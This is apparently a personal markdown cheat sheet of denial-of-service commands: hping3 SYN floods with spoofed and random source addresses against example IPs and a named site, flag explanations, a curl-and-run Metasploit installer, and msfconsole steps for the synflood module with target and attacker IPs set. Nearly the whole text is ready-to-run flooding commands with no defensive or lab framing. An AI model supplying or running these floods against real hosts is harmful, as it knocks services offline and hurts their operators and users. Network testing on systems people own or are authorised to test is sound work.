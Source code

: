 # notes


Similarly if u wanna flood the IP x.x.x.x on port 80 with SYN requests from fake IP y.y.y.y, type

# hping3 -S -a y.y.y.y --flood -p 80 x.x.x.x

 hping3 -S --flood -V -p TARGET_PORT TARGET_SITE
 
 Advanced SYN flood with random source IP, different data size, and window size:

hping3 -c 20000 -d 120 -S -w 64 -p TARGET_PORT --flood --rand-source TARGET_SITE
    HPING TARGET_SITE (eth0 xxx.xxx.xxx.xxx): S set, 40 headers + 120 data bytes
    hping in flood mode, no replies will be shown

–flood: sent packets as fast as possible
–rand-source: random source address
-c –count: packet count
-d –data: data size
-S –syn: set SYN flag
-w –win: winsize (default 64)
-p –destport: destination port (default 0)

####

hping3 -c 15000 -d 120 -S -w 64 -p 80 --flood --rand-source 192.168.1.159
 
hping3 -c 10000 -d 120 -S -w 64 -p 21 --flood --rand-source www.hping3testsite.com
 
 ping : 
 hping3 -S -c 20 -i u500000 -p 80 192.168.1.44
 
 hping3 -c 10000 -d 120 -S -w 64 -p 21 --flood --rand-source www.hping3testsite.com
 
 ??  hping3 -S -P -U --flood -V --rand-source www.hping3testsite.com ??
 
##
https://github.com/rapid7/metasploit-framework/wiki/Nightly-Installers
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
  chmod 755 msfinstall && \
  ./msfinstall
  // dont forget to set rport
msfconsole 
use auxiliary/dos/tcp/synflood
msf auxiliary(synflood) > set rhost 192.168.1.107 (target IP)
msf auxiliary(synflood) > set shost 192.168.1.105 (attacker’s IP )
msf auxiliary(synflood) > exploit
